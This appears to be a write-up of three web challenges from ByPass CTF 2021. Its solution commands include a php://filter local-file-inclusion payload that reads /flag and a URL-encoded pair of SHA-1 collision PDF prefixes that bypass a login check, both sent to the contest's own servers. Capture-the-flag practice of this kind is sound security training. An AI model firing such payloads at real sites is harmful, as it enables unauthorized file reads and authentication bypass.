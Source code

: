 ![](https://cdn-images-1.medium.com/max/800/1*MXlAZ9fzOBiBvjEErVn3Fw.png)

<h1>### ByPass CTF 2021 Write-up ###</h1>

#### <The quieter you become, the more you are able to hear/>

You can find the homepage for this CTF
[here](https://bypassctf.solutions21.in/).

### WEB

1.  **FBIescape(100 | Easy)**

    FBI is looking for you so don’t get tracked buddy I know you can use your head and run away. 
    Link → http://13.76.44.81/ 

    Add Do Not Track Header and use HEAD request by following:

    Linux: curl -X HEAD http://13.76.44.81/ -H “DNT:1”

    Windows: curl head http://13.76.44.81/ -H “DNT:1”

![](https://cdn-images-1.medium.com/max/800/1*DcsPHKA90MbJidNmlRaF3w.png)
<br><span class="figcaption_hack">HEADER Content</span>

**2. BlackClover(250 | Medium)**

    Welcome to clover kingdom :) visit here : http://40.65.167.131/

By enumerating the directory using tools like dirsearch, you’ll get a
security.txt as **.well-known/security.txt** giving a hint as **devil** indicating
that we can do an LFI attack on this parameter using this:

    curl -X POST http://40.65.167.131/ -d "devil=php://filter/resource=/flag”

![](https://cdn-images-1.medium.com/max/800/1*-biwOG8dli9U_qFZV7XLMg.png)
<br><span class="figcaption_hack">FLAG</span>

**3. SHAttered(500 | Hard)**

    Prove me that you can shatter my page and get the flag. 
    http://168.63.250.254/

1. This challenge is based on broken sha1 algo. <br> 2. You need to pass first
500 bytes from pdf of shattered or make your own then pass them in name and
password parameters.

    curl -X POST http://168.63.250.254/ -d "name=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%20%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&password=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1"
